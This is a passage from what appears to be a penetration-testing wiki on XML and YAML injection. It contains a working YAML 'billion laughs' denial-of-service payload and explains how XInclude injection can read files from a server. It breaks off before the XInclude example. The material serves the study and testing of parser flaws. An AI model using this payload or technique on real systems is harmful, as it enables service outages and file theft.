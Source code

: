 #### Yaml Attack

```markup
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

#### Quadratic Blowup Attack

![](../.gitbook/assets/image%20%28479%29.png)

## Hidden XXE Surfaces

### XInclude

[From here.](https://portswigger.net/web-security/xxe)

Some applications **receive client-submitted data, embed it on the server-side into an XML document, and then parse the document**. An example of this occurs when client-submitted data is placed into a **backend SOAP request**, which is then processed by the backend SOAP service.

In this situation, you cannot carry out a classic XXE attack, because **you don't control the entire XML** document and so cannot define or modify a `DOCTYPE` element. However, you might be able to use `XInclude` instead. `XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an `XInclude` attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.

To perform an `XInclude` attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. For example:
